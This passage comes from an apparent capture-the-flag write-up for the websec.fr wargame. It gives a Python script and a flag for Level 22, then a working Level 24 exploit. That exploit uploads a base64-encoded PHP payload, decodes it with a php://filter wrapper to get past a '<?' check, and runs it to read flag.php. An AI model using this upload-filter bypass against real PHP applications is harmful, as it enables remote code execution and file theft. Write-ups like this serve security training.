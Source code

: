 Using this, I can find all the functions that are available within the array.
Eventually, I found `var_dump` and used that function to get my flag.

```python
import requests

url = 'https://websec.fr/level22/index.php'
i = 582
payload = {'code': '$blacklist{' + str(i) + '}($a)'}
r = requests.get(url, params=payload)
print(r.text)
```

`WEBSEC{But_I_was_told_that_OOP_was_flawless_and_stuff_:<}`

## Level 24
The code has a periodic clean up of uploads. 
There is a check on the code being in the proper format:

```php
if (strpos($data, '<?')  === false && stripos($data, 'script')  === false) {  # no interpretable code please.
                file_put_contents($_GET['filename'], $data);
                die ('<meta http-equiv="refresh" content="0; url=.">');
            }
        } elseif (file_exists($_GET['filename'])){
            $data = file_get_contents($_GET['filename']);
        }
```

The code checks the data for the any `<?` PHP starting parts. This blocks all forms of PHP webshell uploads.
However,  this does not check for the `php` string, and one can use `php://filter` to upload stuff. 

So the code checks for the `$data` variable, which is sent in a POST request, and checks whether it contains any interpretable code, if it doesn't, then it does `file_get_contents(filename)`.

The exploit would be to first upload a base64 encoded string as the payload.
Afterwards, setting the filename to a `php://` filter would **decode the file and execute the php code**.

```python
import requests
import base64

s = requests.Session()
s.get('https://websec.fr/level24/index.php')
cookie = s.cookies.get_dict()['PHPSESSID']

payload = b"<?php echo file_get_contents('../../flag.php'); ?>"

filename = "php://filter/convert.base64-decode/resource=test.php"
url1 = "https://websec.fr/level24/index.php?p=edit&filename={0}".format(filename)

data = {
	'filename':filename,
	'data':base64.b64encode(payload).decode()
}

r1= s.post(url1,data = data)

url2= "https://websec.fr/level24/uploads/{0}/test.php".format(cookie)
r2 = s.get(url2)
print(r2.text)
```
